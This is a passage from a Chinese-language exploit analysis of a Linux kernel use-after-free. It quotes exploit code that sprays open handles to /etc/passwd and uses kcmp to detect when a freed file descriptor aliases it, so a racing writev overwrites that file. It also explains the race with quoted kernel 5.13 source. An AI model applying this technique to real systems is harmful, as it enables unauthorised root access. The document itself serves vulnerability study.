 ```
 overwrite done! It should be after the slow write\n");}

```

这一步就是等到第一个线程调用 `writev` 的时候启动第三个线程，然后再去写指定的数据。

#### spray_files

```
 got uaf fd %d, start spray....\n", uaf_fd);    for (int i = 0; i < MAX_FILE_NUM; i++) {        fds[i] = open("/etc/passwd", O_RDONLY);        if (fds[i] < 0) {            perror("open file");            printf("%d\n", i);        }        if (syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, uaf_fd, fds[i]) ==            0) {            found = 1;            printf("[!] found, file id %d\n", i);            for (int j = 0; j < i; j++)                close(fds[j]);            break;        }    }    if (found) {        sleep(4);        return 0;    }    return -1;}

```

连续地打开 `/etc/passwd` 文件，判断文件描述符和 `uaf_fd` 是否为同一文件，如果是那么设置 `found=1`。

在这个地方触发了漏洞导致了 uaf 文件描述符写入了 `/etc/passwd` 文件。

源码分析
----

选用对应源码版本：[https://elixir.bootlin.com/linux/v5.13.3/source](https://elixir.bootlin.com/linux/v5.13.3/source)

### open

在利用中线程 1 （局部变量 `fd`）和线程 2 （全局变量 `uaf_fd`）都打开了一个文件（`./uaf`），如果 `uaf` 是普通文件，那么 `FMODE_ATOMIC_POS` 这个标志位必定存在，但是如果是链接文件，则这里不会被设置这个标记，可以避免被卡在这个函数。

具体的代码可以查看 `open` 函数的调用，相关解释已加注释。

```
static int do_dentry_open(struct file *f,
                          struct inode *inode,
                          int (*open)(struct inode *, struct file *))
{
    static const struct file_operations empty_fops = {};
    int error;

    path_get(&f->f_path);
    f->f_inode = inode;
    f->f_mapping = inode->i_mapping;
    f->f_wb_err = filemap_sample_wb_err(f->f_mapping);
    f->f_sb_err = file_sample_sb_err(f);

    if (unlikely(f->f_flags & O_PATH)) {
        f->f_mode = FMODE_PATH | FMODE_OPENED;
        f->f_op = &empty_fops;
        return 0;
    }

    if (f->f_mode & FMODE_WRITE && !special_file(inode->i_mode)) {
        error = get_write_access(inode);
        if (unlikely(error))
            goto cleanup_file;
        error = __mnt_want_write(f->f_path.mnt);
        if (unlikely(error)) {
            put_write_access(inode);
            goto cleanup_file;
        }
        f->f_mode |= FMODE_WRITER;
    }

```